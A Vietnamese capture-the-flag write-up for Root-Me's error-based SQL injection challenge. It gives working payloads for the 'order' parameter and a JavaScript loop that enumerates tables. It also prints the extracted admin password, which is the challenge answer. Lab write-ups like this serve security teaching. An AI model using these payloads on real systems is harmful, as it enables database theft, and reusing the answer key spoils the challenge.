# Challenge: SQL injection - Error
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Error

- Bài này thì có 1 form đăng nhập, và 1 trang nội dung, nội dung này có thể chứa flag khi chúng tra truy cập được vào tài khoản admin
<p align="center"></p>
<p align="center"></p>

- Thử với các lỗi sql injection đã gặp tuy nhiên không khả thi. 
- Tìm kiếm thông tin thêm từ google `error based sql injection`
https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf

- Thử thêm kí tự `'` vào cuối đường dẫn trang content ta thấy có lỗi xảy ra
<p align="center"></p>

- Để hiển thị các bảng trong Mysql ta dùng lệnh `select table_name from information_schema.tables`, do đó ta thửu với input của tham số order là `ASC,+(cast((select table_name from information_schema.tables) as int))` 
<p align="center"></p>

- Khi đó ta thấy màn hình xuất ra lỗi ko thể trả về nhiều hơn một dòng, do vậy ta sẽ dùng thêm `limit 1` --> sửa lại order=`ASC,+(cast((select table_name from information_schema.tables limit 1) as int))` --> Ta thấy có 1 bảng `m3mbr35t4bl3`
<p align="center"></p>

- ta biết rằng trong information_schema.tables sẽ có rất nhiều bảng gồm nhiều bảng mặc định có sẵn, để lọc ra những bảng do người dùng tao, cũng giống như những bài trước đó, ta sẽ dùng câu lệnh truy vấn sql sau đây `select table_name from information_schema.tables where table_schema = database()` sửa lại order=`ASC,+(cast((select table_name from information_schema.tables where table_schema = database() limit 1) as int))` 
<p align="center"></p>

- Ta nhận được thông báo lỗi không tồn tại hàm database(), do vậy để đơn giản gì chúng ta thử tìm kiếm thêm thử có bảng nào với tên lạ nào khác bằng cách dùng `offset` khi đó trường order=`ASC,+(cast((select table_name from information_schema.tables limit 1 offset 1) as int))`
Ta được một số bảng như pg_type, contents, pg_roles, pg_group, pg_user
```
function getTables(x){
    var xhttp = new XMLHttpRequest();
    url = 'http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC,+(cast((select table_name from information_schema.tables limit 1 offset ' + x + ') as int))'
    xhttp.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            document.getElementsByTagName('h3')[1].innerText += '\n' + xhttp.responseText.replace('"</body></html>','').substr(443);
        }
    };
    xhttp.open("GET", url, true);
    xhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
    xhttp.send();
}
for (i=0;i<100;i++) getTables(i);
```
<p align="center"></p>

- Dường như những bảng mặt định thì nó có 'pg_' do vậy ta sẽ bỏ đi những bảng này, lúc này chỉ còn 2 bảng `contents` và `m3mbr35t4bl3`
<p align="center"></p>

- bình thường tìm các cột có trong bảng m3mbr35t4bl3 trường order=`ASC,+(cast((select column_name from information_schema.columns where table_name = 'm3mbr35t4bl3' limit 1 offset 1) as int))` tuy nhiên nó bị lỗi nên ta cứ thử show hết các tên cột có trong information_schema.columns, khi đó order=`ASC,+(cast((select column_name from information_schema.columns limit 1 offset 1) as int))` --> `us3rn4m3_c0l`

<p align="center"></p>
--> mạnh tay bỏ đi những trường dễ đọc, ta còn lại us3rn4m3_c0l, p455w0rd_c0l, em41l_c0l

- Đến đây ta ta đoán được thông tin, có 2 bảng là m3mbr35t4bl3 và content, và các cột có trong bảng m3mbr35t4bl3 là us3rn4m3_c0l, p455w0rd_c0l, em41l_c0l 
- Ta cần show ra thông tin tài khoản có trong bảng m3mbr35t4bl3, -->
order=`ASC,+(cast((select us3rn4m3_c0l,p455w0rd_c0l from m3mbr35t4bl3 limit 1) as int))`
<p align="center"></p>
- Chỉ cho show 1 cột... OK
- Lấy username --> admin 
<p align="center"></p> 
- Lấy password --> 1a2BdKT5DIx3qxQN3UaC
<p align="center"></p>
- Đăng nhập và nhận kết quả
<p align="center"></p>

## Kết quả password là `1a2BdKT5DIx3qxQN3UaC`